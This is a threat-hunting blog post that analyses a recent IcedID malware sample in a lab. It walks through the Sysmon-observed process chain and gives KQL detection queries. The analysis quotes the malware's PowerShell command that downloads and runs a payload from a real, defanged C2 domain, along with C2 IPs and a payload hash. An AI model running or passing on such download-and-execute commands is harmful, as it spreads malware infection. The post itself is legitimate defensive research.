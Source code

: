 ```yaml
---
layout: post
title:  "Analysis of the current malware - Icedid"
tags: [threat hunting, elk, malware, statistics]
author: jouni
image: assets/images/icedidlogo.png
comments: false
categories: [ threat hunting ]
---
```


![]({{ site.baseurl }}/assets/images/icedidlogo.png)
=====================================================================

Making the decision of what to analyze
======================================

The last blog post that I wrote was about creating an ELK with a Kibana view of the currently active malware, using the common publicly available sandbox services. This gives some insight of what is currently active and I think it can be quite current as I believe that quite a lot of people are uploading the malware they come across to the sandboxes. What I have gathered so far is that probably 95% of all the malware is related to info stealers and that it is a damn shame that I think this can't be done with VirusTotal as I am sure that that would give much better insight.

![]({{ site.baseurl }}/assets/images/stats_hatching_triage.png)The picture to the left shows the most active malware families from the past 7 days according to the Hatching Triage. This shows that **redline** and **amadey** continues to be the most commonly uploaded samples, by a far margin.  These both are info stealers, trying to gain access to different kind of information stored on the target devices.

**SmokeLoader** is known to load Amadey which is likely why it is so high up in the results here.  From the rest, **Vidar**, **AgentTesla**, **Rhadamanthys** and **Laplas** are also info stealers. **Glupteba** is a botnet, which can drop whatever else - including the said info stealers.

Interesting exception to the bunch here is **Djvu**. This is a Ransomware - although it is a little different from most known Ransomware families. Djvu is only targeting the single machine, so no fancy lateral movement or infecting hundreds or thousands of devices before launching the disastrous encryptor. For me, this makes it a little boring - unfortunately.

The data from the Malware Bazaar isn't identical. **Mirai** is by far the most uploaded sample in Malware Bazaar when looking at the past 7 days. This is a change, when I originally created the ELK dashboars Mirai was far behind of Redline and Amadey in Malware Bazaar too. Otherwise, there are minor differences - Malware Bazaar has more botnets in the top families but mostly info stealers too.

![]({{ site.baseurl }}/assets/images/htriage_after_filtering.png)As I am not really interested in analyzing info stealers I filtered out the biggest families. This revealed, from the past two days, that **Emotet** has been still most active, followed by **Asyncrat**. I have already ran one sample of Asyncrat little while ago and thus not interested in that. Emotet, to my knowledge, hasn't got any new tricks - except that it has now adopted the OneNote delivery method.

**Icedid** pops out, which raises my interest likely most out of all of the samples here. I've been working with loaders quite a lot lately but I still find them interesting from threat hunting perspective as they are often the first thing that can be realistically spotted from the endpoints. Icedid has been tied with **Raspberry Robin** and has also been noted of being either the first or second stage payload. Let's go with Icedid then.

Icedid, recent sample Sysmon analysis
=====================================

![]({{ site.baseurl }}/assets/images/icedid_diagram.png)I chose to go with [this](https://tria.ge/230318-gzwyxade5t) sample as it is quite recent so the C2 is still hopefully operational. The file contained a Javascript file which when launched didn't show anything visible. After I double clicked it, the javascript file was executed with wscript.exe, which is the first great hunting vector. Then, it launched encoded powershell through cmd.exe. The powershell process was launched with the following commandline **IEX (New-Object Net.Webclient). downloadstring ("http://conalom\[.\]top/gatef1.php")**. 

So basically, it is loading the next payload from the remote Address. After this the PowerShell process initiated a connection to IP 176\[.\]124.193.25. After initiating the network connection the PowerShell process start a new process, **rundll32.exe,** with the following Commandline: **"C:\\Windows\\System32\\rundll32.exe" C:\\Users\\VAGRAN~1.WIN\\AppData\\Local\\Temp\\BPLTjzsS.dat,init.** File creation for the file BPLTjzsS.dat is not recorded for some reason. It is present on the disk, with SHA256 hash **9E66B2A30D5244D1DFFB968CC1C67FE705CE208EED450AE81F9F48552187749B** and has been reported as malicious in many VT engines. This is associated to Iceid, as to be expected.

The PowerShell session queries for the domain **conalom.top**, which results in IP **176\[.\]124.193.25**. The PowerShell process initiated a connection to this IP on port 80 afterwards. Next, the malicious rundll32.exe process queries for the domain **umoxlopator.com**, which results to IP **80\[.\]78.24.30** to which the rundll32 process initiates a connection to on port 80. Even after waiting for a good few hours, nothing else is being done. The malware has an active C2 connection towards the latter IP-address but hasn't done anything - not even the usual Discovery commands. Weird, but ok - it is waiting for manual action from the threat actor. They might be having a nice Sunday dinner - or maybe they have a bigger catch to fry. Interestingly, the C2 connection is quite spammy, connecting to the address every minute or so.

Hunting for Icedid
------------------

I thought that I would have already created queries to account for this behavior but it actually seems that I have not. Let's start with easy. This basically looks for wscript.exe or cscript.exe starting cmd.exe which then starts encoded Powershell. The regex is not mine, it is from the Microsoft Repository, [here](https://github.com/Azure/Azure-Sentinel/blob/master/Hunting%20Queries/Microsoft%20365%20Defender/Execution/Detect%20Encoded%20Powershell.yaml).

    sysmon
    | where Image endswith "cmd.exe"
    | where ParentImage endswith "wscript.exe" or ParentImage endswith "cscript.exe"
    | where CommandLine matches regex @'(\s+-((?i)encod?e?d?c?o?m?m?a?n?d?|e|en|enc|ec)\s).*([A-Za-z0-9+/]{50,}[=]{0,2})'
    | project TimeGenerated, Computer, ParentImage, Image, CommandLine, CurrentDirectory

Next, let's look for the network connection made by the PowerShell process.

    sysmon
    | where EventID == 1
    | where Image endswith "powershell.exe"
    | where CommandLine matches regex @'(\s+-((?i)encod?e?d?c?o?m?m?a?n?d?|e|en|enc|ec)\s).*([A-Za-z0-9+/]{50,}[=]{0,2})'
    | project ProcessCreateTime = TimeGenerated, Computer, ParentImage, Image, CommandLine, ProcessId
    | join (
    sysmon
    | where EventID == 3
    | where Image endswith "powershell.exe"
    | project NetConTime = TimeGenerated, Computer, Image, ProcessId, SourceIp, DestinationIp, DestinationPort, DestinationPortName, DestinationHostname
    ) on ProcessId, Computer
    | project-away Computer1, Image1, ProcessId1

As we all like joining data I added one final join before I end the post. It adds the child process created by the powershell.exe to the mix - the powershell.exe needs to make a network connection and it has to spawn a child process for this to fire. So it is starting to be quite granular.

    sysmon
    | where EventID == 1
    | where Image endswith "powershell.exe"
    | where CommandLine matches regex @'(\s+-((?i)encod?e?d?c?o?m?m?a?n?d?|e|en|enc|ec)\s).*([A-Za-z0-9+/]{50,}[=]{0,2})'
    | project ProcessCreateTime = TimeGenerated, Computer, ParentImage, Image, CommandLine, ProcessId
    | join (
    sysmon
    | where EventID == 3
    | where Image endswith "powershell.exe"
    | project NetConTime = TimeGenerated, Computer, Image, ProcessId, SourceIp, DestinationIp, DestinationPort, DestinationPortName, DestinationHostname, PowerShellID = ProcessId
    ) on ProcessId, Computer
    | project-away Computer1, Image1, ProcessId1
    | join (
    sysmon
    | where EventID == 1
    | where ParentImage endswith "powershell.exe"
    | project ChildProcessTime = TimeGenerated, Computer, ChildProcessImage = Image, ChildProcessCommandLine = CommandLine, ChildProcessId = ProcessId, PowerShellID = ParentProcessId
    ) on PowerShellID, Computer
    | project-away PowerShellID1

There are a ton of other options here too but this is it now. The C2 would have been interesting to hunt for based on the frequency - maybe next time. This post took ages to make already, for the wrong reasons that are found from the conclusion part.

Conclusion
==========

Unfortunately, I had huge issues with DetectionLab this time. The ansible tasks were getting stuck and failing in the end and I was tackling many of the issues while writing this blog post. I have no idea why random tasks were failing as this has worked perfectly fine for a while now - but it took hours, debugging and retrying so it wasn't amazing experience.

As the project has been discontinued I might be building something of my own - probably based on the great work that has been done to DetectionLab. If I will do that I might be blogging about that later and sharing the work to others - however if I will build something it will likely be much more crude and simplistic as the whole DetectionLab is a little overkill for me. I already removed many components while debugging, like the network level detection (Suricata/Zeek). Also - it will likely be built upon Unraid - which uses KVM-QEMU-Libvirt in the background. I am not overly (at all) familiar with most of the tools used so it will be a huge project to learn - I like it - but I am not sure IF/when I would have the time to do it.

What comes to Icedid - I didn't really see anything new or exciting of the activity. Old tricks that have been seen multiple times and can be found with low effort queries. It is highly likely that even this sample which was uploaded to Hatching Triage a day before I launched it would have been already picked up by most of the Antivirus software. However the reality is that these do get past the controls. This is the reason why you most likely would like to do some threat hunting and targeting the malware. As you've likely noted - I like hunting for loaders. The reason for this is that I like to launch them in the lab to observe where they take me. This time - it didn't really take me to a journey. Maybe that would have happened later but I decided to restore the snapshot around 8 hours after I launched the Icedid.

Queries available at [Github](https://github.com/JouniMi/Threathunt.blog/blob/main/icedid) for easy copying.